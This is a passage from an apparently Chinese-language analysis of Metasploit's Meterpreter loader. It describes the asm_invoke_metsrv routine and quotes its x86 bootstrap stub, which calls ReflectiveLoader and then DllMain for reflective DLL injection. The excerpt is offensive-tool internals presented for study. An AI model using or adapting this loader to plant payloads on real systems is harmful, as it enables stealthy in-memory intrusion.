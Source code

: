 我们看一下 asm\_invoke\_metsrv 函数，这个函数调用了 ReflectiveLoader 函数，接着定位到了 stages 结束的地址。

![image.png](assets/1698893687-96bc6818df856e7636ec9b1b9d456aff.png)

```c
dec ebp ; 'M'//无效代码 
pop edx ; 'Z'//无效代码 
call $+5 ; call next instruction 
pop ebx ; get the current location (+7 bytes) 
push edx ; restore edx 
inc ebp ; restore ebp 
push ebp ; save ebp for later 
mov ebp, esp ; set up a new stack frame 
; Invoke ReflectiveLoader() 
; add the offset to ReflectiveLoader() (0x????????) 

add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)} 
call ebx ; invoke ReflectiveLoader() 
; Invoke DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr) 
; offset from ReflectiveLoader() to the end of the DLL 

add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}
```
